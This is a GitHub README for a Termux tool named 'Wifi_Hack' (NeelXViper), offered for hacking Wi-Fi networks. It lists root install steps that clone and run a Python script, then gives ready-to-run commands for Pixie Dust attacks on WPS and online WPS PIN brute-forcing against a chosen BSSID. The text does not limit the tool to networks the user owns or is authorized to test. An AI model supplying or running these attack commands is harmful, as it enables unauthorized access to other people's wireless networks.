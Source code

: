 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/itzovi/NeelXViper
$ cd NeelXViper
$ chmod +x Viper.py
$ sudo python Viper.py --help
```

#### Example : `sudo python Viper.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Viper.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Viper.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Viper.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
